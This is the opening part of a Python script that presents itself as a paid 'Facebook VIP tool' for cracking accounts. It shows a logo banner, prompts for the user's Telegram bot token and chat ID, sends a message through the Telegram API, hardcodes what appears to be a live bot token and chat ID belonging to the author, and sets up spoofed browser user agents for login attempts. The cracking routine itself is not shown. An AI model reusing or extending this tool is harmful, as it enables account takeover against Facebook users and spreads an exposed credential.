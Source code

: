 ⣿⣿⡇⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⣤⣀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣀⣀⣀⣀⣀⣀⣀⠀⠀⠀⠀⠀⠀⠈⣿⣧⠀⠀⠀⠀⠀⢳⣄⢸⣿⣿
⢿⣿⣿⢀⣤⣿⣿⡿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣶⣤⡀⠀⠀⢹⣿⣆⠀⠀⠀⠀⢸⡿⣿⣿⣿
⢸⣿⣿⡄⠉⠛⠉⠀⠸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣦⣄⠀⢻⣿⡷⢦⣤⣶⠟⢁⣿⣿⡇
⠘⣿⣿⣇⠀⠀⠀⠀⠀⠹⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣧⡀⠙⢿⣤⣤⣤⡴⣸⣿⣿⠃
⠀⢹⣿⣿⡄⠀⠀⠀⠀⠀⠈⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡄⠀⠈⠉⠁⢠⣿⣿⡏⠀
⠀⠀⢿⣿⣷⡀⠀⠀⠀⠀⠀⢸⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣷⠀⠀⠀⢀⣾⣿⡿⠀⠀
⠀⠀⠈⢿⣿⣷⡀⠀⠀⠀⠀⢸⣿⣿⠛⢻⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡇⠀⢀⣾⣿⡿⠁⠀⠀
⠀⠀⠀⠈⢿⣿⣷⡄⠀⣀⣀⣸⣿⡇⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠃⢠⣾⣿⡿⠁⠀⠀⠀
⠀⠀⠀⠀⠀⠻⣿⣿⣦⡈⠛⠛⠋⠀⠀⠀⢹⡟⠀⠈⠉⠉⠛⠻⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣟⣴⣿⣿⠟⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠙⢿⣿⣷⣄⠀⠀⠀⠀⠀⠉⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠋⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠙⢿⣿⣿⣶⣦⣤⣀⣀⡀⠀⠀⠀⠀⣀⣀⣴⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠛⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠛⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠙⠻⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⣿⡿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠉⠙⠛⠿⠿⠿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠿⠿⠛⠛⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀




      {R}☇{W} 𓌹{B} 𝑲𝑰𝑳𝑾𝑨 {W}𓌺  {R}☄    {G}𝑻𝑶𝑶𝑳𝑺 {B}   ☠     
'''
print(logop)
print('\n\n\n')
token=input('\033[1;31m   𝑇\033[1;32m 𝑂 \033[1;33m 𝐾 \033[1;34m 𝐸 \033[1;36m 𝑁 \033[1;35m ♕ : ')
print('\n')
ID=input('\033[1;31m   𝐼  \033[1;34m𝐷 \033[1;32m   : ')
KV = '''WELCOME TO FACEBOOK VIP TOOL 

اهلا بك في اداة فيس بوك المدفوعة

<><><><><><><><><><><><><><>

WAIT TO CRACK MY FRIEND ♡

انتظر الصيد ياصديقي ولاتنسى صور الصيد 🔪🗿

<><><><><><><><><><><><><><>

@lx0b2 ¦ @pythonln'''
kopo = requests.get('https://api.telegram.org/bot' + str(token) + '/sendMessage?chat_id=' + str(ID) + '&text=' + str(KV))
if kopo.status_code == 404:
	exit('\x1b[91;1m\n   - Kilwa • ☒ التوكن او الايدي غلط ☒ ')
os.system('clear')
webbrowser.open('https://t.me/Pythonln')
os.system('clear')

mytoken = '7078032078:AAEaXn1isHtof2mhG2qu9Ss4K0BqCNI8www'
myid = '6413782426'
pretty.install()
CON=sol()
ua = UserAgent()
user_ahd = ua.chrome
ugen2=[user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd,user_ahd]

